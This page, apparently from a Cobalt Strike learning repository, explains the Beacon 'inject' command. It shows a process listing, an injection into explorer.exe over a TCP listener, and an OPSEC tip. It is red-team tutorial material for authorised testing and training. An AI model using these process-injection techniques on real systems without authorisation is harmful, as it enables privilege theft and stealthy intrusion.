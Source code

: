The `inject` command will inject a Beacon payload in the form of shellcode into a target process. You can inject into processes owned by the current user without needing elevation, but local admin privileges are required to inject into processes owned by other users. If you inject into a process owned by a different user, your Beacon will run with all the local and domain privileges of that user.
```shell
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking

beacon> inject 3320 x64 tcp-4444-local
[+] established link to child beacon: 10.10.17.231
```

Where:
-   `3320` is the PID of the target process.
-   `x64` is the architecture of that process.
-   `tcp-4444-local` is the name of the listener.

**OPSEC Alert**
>Don't perform cross-platform injection unless you really have to (e.g. x86 -> x64 or x64 -> x86).

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/ec57fd1d-00ca-4b14-a832-5d99571508be)


